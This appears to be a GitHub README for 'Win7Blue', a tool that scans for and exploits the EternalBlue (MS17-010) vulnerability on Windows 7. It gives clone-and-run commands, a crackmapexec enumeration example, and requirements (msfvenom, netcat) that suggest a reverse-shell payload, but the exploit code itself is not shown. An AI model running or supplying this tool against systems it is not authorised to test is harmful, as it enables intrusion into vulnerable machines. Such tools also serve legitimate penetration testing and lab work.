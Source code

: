 # Win7Blue

Scan/Exploit - EternalBlue MS17-010 - Windows 7 32/64 Bits

- <kbd>Scan</kbd>

![](/screenshots/1.png)

- <kbd>Exploit</kbd>

![](/screenshots/2.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# git clone https://github.com/d4t4s3c/Win7Blue.git && cd Win7Blue && chmod +x Win7Blue.sh
root@kali:~# ./Win7BLue.sh
```

- <kbd>Enum 32/64 bits</kbd>

```cmd
root@kali:~# crackmapexec smb <target>
SMB   192.168.1.XXX   445   TESTING   [*] Windows 7 Professional 7600 x64 (name:TESTING) (domain:TESTING) (signing:False) (SMBv1:True)
```

- <kbd>Tested On:</kbd>

  * Kali
  * Parrot
  
- <kbd>Requirements:</kbd>

   * Python
   * Python3
   * Msfvenom
   * Impacket
   * Netcat/Ncat

---
